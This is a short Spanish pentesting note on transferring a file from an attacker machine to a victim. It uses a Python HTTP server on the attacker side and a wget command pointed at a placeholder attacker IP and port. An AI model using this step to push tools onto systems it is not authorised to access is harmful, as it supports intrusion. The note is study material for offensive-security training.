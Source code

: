 
---

Para transferir un archivo de una maquina atacante a una maquina victima existen multitud de posibilidades, en esta nota se mostraran las técnicas que vaya descubriendo:

- montando un servidor http con **python**

```bahs
python3 -m http.server <puerto donde lo queremos montar>
```

```bash 
wget <ip-maquina-atacante>:<puerto-atacante>/recursoADescargar(nombre con extension)
```

ACLARACION para facilitar la descarga montar el servidor python en la maquina atacante estando en el directorio que contiene el archivo que queremos traspasar 